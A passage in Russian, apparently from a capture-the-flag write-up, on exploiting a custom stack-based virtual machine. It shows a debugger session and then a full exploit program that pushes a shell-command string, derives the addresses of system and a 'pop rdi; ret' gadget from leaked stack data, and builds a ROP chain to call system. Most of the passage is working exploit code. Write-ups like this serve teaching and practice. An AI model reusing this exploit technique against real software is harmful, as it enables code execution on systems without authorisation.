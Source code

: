 ```c

gef➤  jump *0x0000555555555209
Continuing at 0x555555555209.
...

gef➤  p/d ((long long)$rsp - 0x7fffffffdc30) / 8
$4 = 7
```

Получается, чтобы перетереть адрес возврата, нужно 8 раз сделать `pop`, и затем через `push` положить правильное значение. Учитывая, что у нас на стеке помимо адреса `pop rdi; ret` должно лежать еще и значение `rdi` и адрес `system`, и то, что мы уже сделали `pop` несколько раз, получаем

```asm
pop d
pop d
push b
push a
push c
```

Объединяя всё написанное выше и не забывая в начале эксплоита положить на стек шелл-код, получаем:

```asm
// Шелл-код
mov a 13264972891059052
push a
// Сдвигаем указатель обратно, как было раньше
pop a

// Достаем адрес стека
pop a
sub a 328
// Сдвигаем на 8 байт, чтобы указывало в начало шелл-кода
sub a 8

// Получаем адрес system
pop b
pop b
pop b
pop b
pop b
pop b
pop b
add b 176144

// Получаем адрес pop rdi; ret
mov c b
sub c 174523

// Кладём на стек подряд адрес pop rdi; ret, адрес шелл-кода и адрес system
pop d
pop d
push b
push a
push c
```
